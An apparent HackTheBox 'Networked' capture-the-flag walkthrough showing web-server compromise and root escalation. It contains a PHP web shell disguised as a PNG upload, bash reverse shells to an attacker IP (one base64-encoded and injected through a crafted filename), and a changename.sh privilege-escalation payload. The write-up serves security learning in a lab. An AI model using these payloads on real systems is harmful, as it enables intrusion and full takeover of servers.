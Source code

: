 # Exploiting the HTB “Networked” Box: From Recon to Root

## HTB - Networked Walkthrough

**Category**: Web Exploitation, Privilege Escalation\
**Tags**: #cybersecurity

***

### 🕵️ Initial Recon

* Service found: **SSH**
* Version: **OpenSSH 7.4**
* Possible exploit: [CVE-2016-10012](https://www.exploit-db.com/exploits/40963)

```bash
wfuzz -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --hc 404 http://10.10.10.146/FUZZ
```

* Found and extracted `backup.tar` archive.
* Inside: `upload.php` code with weak validation.

***

### 📤 File Upload Vulnerability

* The upload logic checks only:
  * MIME type
  * File extension

**Request (Burp Suite)**

```http
POST /upload.php HTTP/1.1
Host: 10.10.10.146
Content-Length: 329
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://10.10.10.146
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryRKXbcJxOmo3AUCu7
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.10.10.146/upload.php
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

------WebKitFormBoundaryRKXbcJxOmo3AUCu7
Content-Disposition: form-data; name="myFile"; filename="test.php.png"
Content-Type: image/png

PNG

	
<?php
system($_REQUEST['cmd']);
?>
------WebKitFormBoundaryRKXbcJxOmo3AUCu7
Content-Disposition: form-data; name="submit"

go!
------WebKitFormBoundaryRKXbcJxOmo3AUCu7--
```

<figure><img src="../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 🐚 Reverse Shell Access

* Used `nc` on Parrot OS:

```bash
nc -lvnp 4444
```

* Burp request:

```http
GET /uploads/10_10_14_8.php.png?cmd=bash+-i+>%26+/dev/tcp/10.10.14.8/4444+0>%261 HTTP/1.1
Host: 10.10.10.146
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

```

<figure><img src="../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

***

### 🧼 File Cleanup Script Vulnerability

* In `guly`'s home directory, a script was auto-deleting files not matching an IP regex.

```php
exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");
```

* This allows **command injection**.
*

    <figure><img src="../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
* made a reverse shell

```
echo "bash -i >& /dev/tcp/10.10.14.8/4445 0>&1" | base64
```

```
touch -- ';echo "YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC44LzQ0NDUgMD4mMQo=" | base64 -d | bash'
```

* gully can run the following

#### Reproduction

```bash
touch -- ';echo "YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC44LzQ0NDUgMD4mMQo=" | base64 -d | bash'
```

***

### ⚙️ Privilege Escalation via `changename.sh`

<figure><img src="../.gitbook/assets/image (4) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```bash
#!/bin/bash -p
cat > /etc/sysconfig/network-scripts/ifcfg-guly << EoF
DEVICE=guly0
ONBOOT=no
NM_CONTROLLED=no
EoF

regexp="^[a-zA-Z0-9_\ /-]+$"

for var in NAME PROXY_METHOD BROWSER_ONLY BOOTPROTO; do
    echo "interface $var:"
    read x
    while [[ ! $x =~ $regexp ]]; do
        echo "wrong input, try again"
        echo "interface $var:"
        read x
    done
    echo $var=$x >> /etc/sysconfig/network-scripts/ifcfg-guly
done

/sbin/ifup guly0
```

* Vulnerability: passes user-controlled input to a script executed with root privileges.

#### Exploit:

```bash
echo 'bash -p' > /tmp/payload
chmod +x /tmp/payload

sudo /usr/local/sbin/changename.sh
```

When prompted:

```
interface NAME:
guly0
interface PROXY_METHOD:
none
interface BROWSER_ONLY:
no
interface BOOTPROTO:
none /tmp/payload
```

Executes `/tmp/payload` as root.

* as said in this Blog post if a space is given this is executed everything after the space as root
  * https://seclists.org/fulldisclosure/2019/Apr/24

***

### 🧠 Lessons

* Never trust user input — always sanitize and validate properly.
* File upload protections should go beyond MIME and extension.
* Never directly pass input to shell commands without sanitization.

***

### 🔗 References

* [Full Disclosure - changename.sh bug](https://seclists.org/fulldisclosure/2019/Apr/24)
* [YouTube Walkthrough](https://www.youtube.com/watch?v=H3t3G70bakM)
* https://seclists.org/fulldisclosure/2019/Apr/24
* [https://www.hackthebox.com/achievement/machine/409699/203](https://www.hackthebox.com/achievement/machine/409699/203)
